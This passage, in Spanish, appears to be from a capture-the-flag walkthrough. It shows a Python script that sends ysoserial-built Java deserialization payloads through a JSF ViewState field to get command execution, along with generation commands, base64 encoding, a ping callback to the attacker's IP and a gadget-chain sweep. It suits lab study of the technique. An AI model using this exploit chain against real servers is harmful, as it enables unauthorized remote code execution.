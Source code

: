 ```py
            "j_id_jsp_1623871077_1_SUBMIT" : "1",
            "javax.faces.ViewState" : final_payload
        }

        session = requests.Session()
        r = session.post(url + '/userSubscribe.faces', data=data_post)

        # Borramos los archivos creados de cada payload (por un problema tuve que hacerlo asi).
        os.system("shred -zun 10 %s.txt" % (payload))

# Enviamos el comando
sign_payload("ping -n 1 10.10.14.14")
```

Entonces generamos el payload, que dentro de él va a tener el comando `ping -n 1 10.10.14.14`, por lo tanto si se ejecuta deberíamos recibir una petición **ICMP** hacia nuestra máquina. Pongámonos en escucha para ver que llega hacia el protocolo **ICMP** en la red:

```bash
❭ tshark -i tun0 -Y "icmp" 2>/dev/null
```

Hagamos un ejemplo rápido de lo que hace el script:

<span>1. </span>Generamos payload.

```bash
❭ java -jar ysoserial.jar Click1 'ping -n 1 10.10.14.14' > clickpayload.txt
❭ strings clickpayload.txt
java.util.PriorityQueue
sizeL
...
❭ file clickpayload.txt 
clickpayload.txt: Java serialization data, version 5
```

<span>2. </span>Firmamos el payload.

<span>3. </span>Convertimos el payload a base64 para pasárselo al campo **ViewState**.

```bash
❭ cat clickpayload.txt | base64 | tr -d '\n'
rO0ABXNyABdqYXZhLnV0aWwuUHJpb3JpdHlRdWV1ZZTaMLT7P4Kx...
```

<span>4. </span>Enviamos la petición :P

...

Listo, pues ejecutando el script y estando atentos tenemos respuesta cuando llega a estos payloads:

```py
❭ python3 validatePayload.py
...
Enviando CommonsCollections5
Enviando CommonsCollections6
Enviando CommonsCollections7
...
```
